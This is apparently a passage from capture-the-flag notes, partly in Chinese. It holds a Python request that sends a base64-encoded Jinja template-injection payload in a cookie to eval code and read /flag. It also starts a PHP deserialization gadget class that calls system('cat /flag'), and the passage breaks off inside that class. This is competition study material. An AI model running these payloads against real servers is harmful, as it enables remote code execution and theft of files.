 		  eval_payload = "{}[open('/flag').read()]"
		  
		  r = base_get(url, cookies = {
		      "pick1e": enc_dec.base64_encode(cmd_payload("{{(g.pop.__globals__.__builtins__.eval('EVAL'))}}".replace("EVAL", eval_payload.replace("'", "\\'"))))
		  })
		  s = r.text
		  print(s)
		  ```
- # D0n't pl4y g4m3!!!
  id:: 64f2a4b1-ae66-4b1e-9a95-744f30a923cb
	- `php -S`源码泄漏
		- https://cloud.tencent.com/developer/article/2235691?areaSource=102001.17&traceId=tI_nnwwNe3lbaVzfWNtrS
		- ![Screenshot_2023-09-02_11-01-15.png](../assets/Screenshot_2023-09-02_11-01-15_1693623721009_0.png)
	- 构造payload
		- ```php
		  <?php
		  // header("HTTP/1.1 302 found");
		  // header("Location:https://passer-by.com/pacman/");
		  
		  class Pro{
		      private $exp;
		      private $rce2;
		  
		      public function __get($name)
		      {
		          return $this->$rce2=$this->exp[$rce2];
		      }
		      public  function __toString()
		      {
		              call_user_func('system', "cat /flag");
		       }
		  }
		  